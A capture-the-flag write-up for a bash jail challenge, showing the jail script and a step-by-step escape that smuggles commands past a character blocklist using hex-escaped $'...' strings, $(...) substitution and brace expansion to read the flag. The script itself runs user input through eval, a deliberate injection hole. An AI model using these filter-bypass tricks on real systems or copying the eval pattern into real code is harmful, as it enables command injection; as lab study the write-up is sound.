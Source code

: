 #Insomni'hack CTF 2016 : PCAPBleeding

**Category:** JAIL |
**Points:** 300 |
**Solves:** 7% |
**Description:** 

> BASHJAIL

---

##Code and Write-up

Here is the code :

```bash
#!/bin/bash
. /home/game/.omg

_start(){
    echo "Hi. U got $TIME second(s) to do this. Don't fap"
    sleep "$TIME"
    _quit
}

_quit(){
    echo -e '\n\033[0;31mA breton is faster than u. Bye\033[0m'
    kill -9 "$PID" &>/dev/null
    exit
}

_trapped(){
    kill "$sPID"
    local TIME="$((RANDOM%1337))"
    echo -e "Poor guyz. U wanna leave this GAME ?\nStay with me for "$TIME"s <3.\nTake a drink? For milk, ask @saxx. For beer, ask @kaluche"
    sleep "$TIME"
}


_is_hacker_or_breton(){
        [[ $1 == *[02abcdefghijklmnopqrstuvwyzABDEFGHIJKLMNOPQRSTUVWXYZ';''&'' ''"''*''`''?''.''<''>']* ]] && return 0
        return 1
}

PID="$$"
echo "PIIIID : $PID"
trap _trapped SIGINT SIGTERM
TIME=5 ; _start & sPID="$!" ; sleep 0.01

while true; do
    echo -ne "\033[32mEnter a cmd > \033[0m"
    read cmd
    _is_hacker_or_breton "$cmd" && {
            echo -e '\033[0;31mDont hack me !\033[0m'
            exit 1
        } || {
            out="echo Your command is: $cmd"
            eval "$out"
    }
done
```

Here, the .omg file : [.omg](https://github.com/notfound-404/BREIZHCTF2K16/)

The first thing to do, was to ^c to kill the timeout, and to get a small sleep.
You can see it's RANDOM.

```
Poor guyz. U wanna leave this GAME ?
Stay with me for 1182s <3.
Take a drink? For milk, ask @saxx. For beer, ask @kaluche
Poor guyz. U wanna leave this GAME ?
Stay with me for 881s <3.
Take a drink? For milk, ask @saxx. For beer, ask @kaluche
Poor guyz. U wanna leave this GAME ?
Stay with me for 906s <3.
Take a drink? For milk, ask @saxx. For beer, ask @kaluche
Poor guyz. U wanna leave this GAME ?
Stay with me for 600s <3.
Take a drink? For milk, ask @saxx. For beer, ask @kaluche
Poor guyz. U wanna leave this GAME ?
Stay with me for 8s <3.
Take a drink? For milk, ask @saxx. For beer, ask @kaluche
```

Well, 8s is quiet small.
Now, you can easily find unfiltered chars, by testing them manually.
The following wasn't filtered :

```
Enter a cmd > $'x13456789{}()\\
Enter a cmd >
```

Knowing that, and knowing a little bash, you can try a `ls` :

```
Enter a cmd > $'\\x6C\\x73'
Your command is: ls
```

Ok, the command is not filtered but not executed ...
Well, try to executed is using `$(cmd)`

```
Enter a cmd > $($'\\x6C\\x73')
Your command is: flag jail.sh
```

Good, the command was executed.
You can see 2 files, `flag` and `jail.sh`

Let's try to `cat flag` :
```
Enter a cmd > $($'\\x63\\x61\\x74\\x20\\x66\\x6C\\x61\\x67')
Dont hack me !
```

Oh, right. `\\x20` contains filtered chars.<br>
If you were stuck here, you just had to Google : `bash commands without spaces`<br>
(https://jon.oberheide.org/blog/2008/09/04/bash-brace-expansion-cleverness/)

An example :

```bash
jonojono@apollo ~ $ {echo,hello,world}
hello world
```

We know that `{}` are not filtered, let's try this :
```
Enter a cmd > $({$'\\x63\\x61\\x74',$'\\x66\\x6C\\x61\\x67'})
Your command is: BRZHCTF{...}
```


<br>
Pwned.<br>
__Flag__ : BRZHCTF{Yes_I_allow_u_to_hate_me...I_am_Notfound_and_I_love_b4sh.I_also_love_long_flag,saxxounette_and_kalouchi_and_the_others_trollz}

Small asciicast : <br>
[![Alt text for your video](http://pix.toile-libre.org/upload/original/1462182542.png)](https://asciinema.org/a/enbpmktycn237ecslojre4f4q#)

Enjoy,<br>
\- [Notfound](https://www.notfound.ovh)

